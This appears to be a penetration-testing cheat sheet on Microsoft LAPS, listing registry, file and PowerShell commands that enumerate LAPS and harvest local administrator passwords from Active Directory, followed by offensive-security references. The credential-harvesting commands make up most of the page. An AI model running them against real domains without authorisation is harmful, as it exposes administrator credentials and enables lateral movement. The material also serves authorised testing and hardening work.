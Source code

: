 # Living off the Land

## 01 - Enumerate

Check the registry entry if LAPS is enabled.

```
C:\> reg.exe query "HKLM\SOFTWARE\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft Services\AdmPwd" -Name "AdmPwdEnabled"
```

Check if that folder exists and contains `AdmPwd.dll`.

```
C:\> dir "C:\Program Files\LAPS\CSE"

PS C:\> Get-ChildItem -Path "C:\Program Files\LAPS\CSE"
```

Enumerate native LAPS PowerShell cmdlets if they are installed.

```
PS C:\> Get-Command *AdmPwd*
```

## 02 - Harvest Credentials

Find the principals that have **ReadProperty** on `ms-Mcs-AdmPwd`.

```
PS C:\> Get-AdmPwdPassword -ComputerName <IP> | Format-List
```

Find GPOs that have "LAPS" or some other descriptive term in the name

```
PS C:\> Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | Format-List
```

Search computer objects where the `ms-Mcs-AdmPwdExpirationTime` property is not null (any Domain User can read this property)

```
PS C:\> Get-DomainObject -SearchBase "LDAP://[DC=<subdomain>,]DC=<domain>,DC=<tld>" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

---
## References

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)

### ADSecurity

- [ADSecurity: Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)